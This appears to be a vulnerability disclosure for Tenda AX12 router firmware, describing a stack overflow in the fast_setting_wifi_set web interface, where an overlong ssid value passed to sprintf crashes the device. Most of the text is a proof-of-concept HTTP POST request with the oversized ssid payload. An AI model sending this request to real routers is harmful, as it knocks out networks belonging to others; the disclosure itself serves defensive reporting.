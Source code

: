 ## Vulnerability description ##
Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

## Vulnerability cause ##
In the /goform/fast_setting_wifi_set interface, the ssid parameter and the sprintf function passed through it do not limit the length, which will cause stack overflow and achieve the effect of a DoS denial of service attack.

![](./image/1.png)



## POC ##

Poc of Denial of Service(DoS):

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa+1000*a
```
